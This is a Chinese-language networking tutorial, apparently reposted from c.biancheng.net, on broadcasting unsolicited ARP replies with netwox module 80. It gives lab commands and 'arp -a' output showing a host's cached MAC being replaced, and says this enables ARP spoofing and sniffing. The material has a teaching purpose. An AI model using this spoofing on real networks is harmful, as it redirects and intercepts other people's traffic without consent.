

# 周期性发送 ARP 响应包

> 原文：[`c.biancheng.net/view/6397.html`](http://c.biancheng.net/view/6397.html)

正常情况下，ARP 响应是基于 ARP 请求的，只有发送了 ARP 请求才会得到 ARP 响应，并且发送一次 ARP 请求只会得到一个响应。

周期性发送 ARP 响应包，是指在没有 ARP 请求的情况下，以广播的形式多次发送 ARP 响应。

netwox 工具提供编号为 80 的模块，可以模拟计算机定期发送 ARP 数据包，从而更新其他主机的 ARP 缓存表。在 ARP 攻击中，该功能可以达到欺骗的目的，使受害者将数据包发送到错误的 MAC 地址主机（攻击主机），从而导致数据包被监听。

【示例】已知 netwox 所在主机为主机 A，主机 B 的 IP 地址为 192.168.59.135。使用 netwox 工具发送 ARP 响应包，以更换 ARP 缓存表中主机的 MAC 地址信息。

1) 在发送 ARP 响应之前，在主机 B 上查看主机 ARP 缓存表信息，执行命令如下：

root@daxueba:~# arp -a

输出信息如下：

localhost (192.168.59.136) at 00:0c:29:bc:a4:89 [ether] on eth0
localhost (192.168.59.132) at 00:0c:29:aa:e0:27 [ether] on eth0
localhost (192.168.59.125) at 00:0c:29:ca:e4:99 [ether] on eth0
localhost (192.168.59.160) at a1:b2:c3:d4:e5:f6 [ether] on eth0
localhost (192.168.59.254) at 00:50:56:f8:bb:0f [ether] on eth0
localhost (192.168.59.2)     at 00:50:56:ea:f3:a1 [ether] on eth0

上述输出信息中，主机 192.168.59.136 的 MAC 地址为 00：0c：29：bc：a4：89。

2) 创建虚拟主机 192.168.59.136，并向该主机发送 ARP 响应包，设置 MAC 地址为 00：01：01：21：22：23，执行命令如下：

root@daxueba:~# netwox 80 -i 192.168.59.136 -e 00:01:01:21:22:23

执行命令后没有任何输出信息。

3) 此时再次在主机 B 上查看主机 ARP 缓存表信息，执行命令如下：

root@daxueba:~# arp -a

输出信息如下：

localhost (192.168.59.136) at 00:01:01:21:22:23 [ether] on eth0
localhost (192.168.59.132) at 00:0c:29:aa:e0:27 [ether] on eth0
localhost (192.168.59.125) at 00:0c:29:ca:e4:99 [ether] on eth0
localhost (192.168.59.160) at a1:b2:c3:d4:e5:f6 [ether] on eth0
localhost (192.168.59.254) at 00:50:56:f8:bb:0f [ether] on eth0
localhost (192.168.59.2)     at 00:50:56:ea:f3:a1 [ether] on eth0

上述输出信息中，主机 192.168.59.136 的 MAC 地址由原来的 00：0c：29：bc：a4：89 变为了 00：01：01：21：22：23。

4) 为了验证发送的 ARP 响应包，捕获数据包进行查看，如图所示。

其中，第 27~33 个数据包为重复发送的 ARP 响应包。